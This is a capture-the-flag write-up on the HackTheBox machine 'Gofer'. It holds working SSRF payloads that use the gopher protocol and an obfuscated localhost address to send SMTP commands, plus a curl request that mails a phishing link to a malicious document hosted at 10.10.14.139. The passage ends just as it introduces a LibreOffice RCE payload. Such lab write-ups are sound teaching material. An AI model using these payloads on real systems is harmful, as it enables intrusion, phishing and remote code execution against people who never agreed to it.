 With the collection of hints and information gathered in addition to the name of the box, its clear the way forward will involve sending a mail with a malicious attachment/link. If the attachment was included in the URL some how it would be quite large.

It turned out there was logic to simulate clicking links and downloading files which was ideal. Next steps will involve creating a malicious office document, hosting it on a server, using the PHP discovered in the previous step to take advantage of SSRF using the gopher protocol to send a mail.

This process was well documented on hacktricks so it was used as a resource for this step.

### Plaintext payload to send email via SMTP (Port 25)
```
gopher://2130706433:25/xHELO gofer.htb
MAIL FROM:<hacker@site.com>
RCPT TO:<jhudson@gofer.htb>
DATA
From: [Hacker] <hacker@site.com>
To: <jhudson@gofer.htb>
Date: Tue, 15 Sep 2017 17:20:26 -0400
Subject: AH AH AH

You didn't say the magic word ! <a+href='http://10.10.14.139/bad.odt>this</a>
.
QUIT
```

### Double URL encoded payload
```
gopher://2130706433:25/xHELO%20gofer.htb%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cjhudson@gofer.htb%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cjhudson@gofer.htb%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%20<a+href%3d'http%3a//10.10.14.139/bad.odt>this</a>%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a 
```

### Final payload sent via SSRF 

`gopher://2130706433:25/` translates into 127.0.0.1:25 to bypass any blacklists. 

```
curl -v -XOPTIONS "http://proxy.gofer.htb/index.php?url=gopher://2130706433:25/xHELO%20gofer.htb%250d%250aMAIL%20FROM%3A%3Chacker@site.com%3E%250d%250aRCPT%20TO%3A%3Cjhudson@gofer.htb%3E%250d%250aDATA%250d%250aFrom%3A%20%5BHacker%5D%20%3Chacker@site.com%3E%250d%250aTo%3A%20%3Cjhudson@gofer.htb%3E%250d%250aDate%3A%20Tue%2C%2015%20Sep%202017%2017%3A20%3A26%20-0400%250d%250aSubject%3A%20AH%20AH%20AH%250d%250a%250d%250aYou%20didn%27t%20say%20the%20magic%20word%20%21%20<a+href%3d'http%3a//10.10.14.139/bad.odt>this</a>%250d%250a%250d%250a%250d%250a.%250d%250aQUIT%250d%250a"
```

# LibreOffice payload
Below is a copy of the payload used to gain RCE. There was a blacklist preventing certain commands from executing. Breaking the command up into two parts worked as shown below. First request downloads and saves the payload on disk. The second request executes it. 
